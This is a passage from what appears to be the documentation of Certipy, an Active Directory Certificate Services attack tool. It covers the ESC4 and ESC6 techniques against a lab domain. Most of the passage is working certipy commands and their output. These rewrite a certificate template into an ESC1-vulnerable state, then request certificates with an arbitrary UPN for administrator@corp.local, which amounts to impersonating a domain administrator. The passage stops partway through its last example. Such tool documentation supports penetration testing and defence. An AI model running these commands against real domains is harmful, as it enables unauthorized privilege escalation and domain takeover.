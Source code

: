 ```bash
$ certipy template -username john@corp.local -password Passw0rd -template ESC4-Test -save-old
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'ESC4-Test' to 'ESC4-Test.json'
[*] Updating certificate template 'ESC4-Test'
[*] Successfully updated 'ESC4-Test'
```

The certificate template is now vulnerable to the ESC1 technique.

Therefore, we can now request a certificate based on the ESC4 template and specify an arbitrary SAN with the `-upn` or `-dns` parameter.

```bash
$ certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC4-Test -upn administrator@corp.local
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 783
[*] Got certificate with UPN 'administrator@corp.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'

```

If you want to restore the old configuration, you can specify the path to the saved configuration with the `-configuration` parameter.

```bash
$ certipy template -username john@corp.local -password Passw0rd -template ESC4-Test -configuration ESC4-Test.json
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'ESC4-Test'
[*] Successfully updated 'ESC4-Test'
```

#### ESC6

ESC6 is when the CA specifies the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag. This flag allows the enrollee to specify an arbitrary SAN on all certificates despite a certificate template's configuration. After the patch for my reported vulnerability [CVE-2022–26923](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4), this technique no longer works alone, but must be combined with [ESC10](https://research.ifcr.dk/7237d88061f7).

The attack is the same as ESC1, except that you can choose any certificate template that permits client authentication. After the May 2022 security updates, new certificates will have a securiy extension that embeds the requester's `objectSid` property. For ESC1, this property will be reflected from the SAN specified, but with ESC6, this property reflects the requester's `objectSid`, and not from the SAN. Notice that the objectSid changes depending on the requester in the following example.

```bash
$ certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template User -upn administrator@corp.local
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 2
[*] Got certificate with UPN 'administrator@corp.local'
[*] Certificate object SID is 'S-1-5-21-2496215469-2694655311-2823030825-1103'
[*] Saved certificate and private key to 'administrator.pfx'

$ certipy req -username administrator@corp.local -password Passw0rd! -ca corp-DC-CA -target ca.corp.local -template User -upn administrator@corp.local
Certipy v4.0.0 - by Oliver Lyak (ly4k)
```